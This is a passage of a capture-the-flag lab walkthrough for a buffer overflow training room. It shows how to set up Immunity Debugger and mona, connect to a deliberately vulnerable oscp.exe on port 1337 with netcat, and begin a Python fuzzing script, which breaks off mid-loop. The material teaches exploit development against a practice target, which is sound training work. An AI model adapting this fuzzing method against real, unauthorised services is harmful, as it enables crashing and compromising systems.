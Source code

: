 # Using Immunity Debugger

1. Run Kali VM connected to THM over VPN. 
2. Start the Room Machine and note the IP address. Remote desktop from your Kali VM to the IP address of the 
Machine using Remmina. 

```text
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

## Start Immunity

| ![First run Immunity](/_static/images/overflow1a.png) |
|:--:|
| Immunity setup |

3. In the Machine, right-click the `Immunity Debugger` icon on the Desktop and choose `Run as administrator`. 
4. When Immunity loads, configure mona (bottom of Immunity):

```text
!mona config -set workingfolder c:\mona\%p
```

5. Click the open file icon, or choose `File -> Open`. Navigate to the vulnerable-apps folder 
on the admin user's desktop, and then the `oscp` folder. Select the `oscp.exe` binary and open it.
6. The binary will open in a "paused" state, so click the red play icon or choose `Debug -> Run`. 
7. In a terminal window, the `oscp.exe` binary should be running, and tells us that it is listening on port `1337`.
8. On the Kali box, connect to port `1337` on `MACHINE` using netcat:

```text
nc MACHINE_IP 1337
```

9. Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type 
"OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

## Fuzzing the program

To fuzz the `ospc.exe` program to see if it is vulnerable, send it a long string of characters. This long string of 
characters will eventually exceed the memory buffer causing the buffer overflow. Use the script below and adapt it 
with the IP address of the host and the overflow to target. 

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
```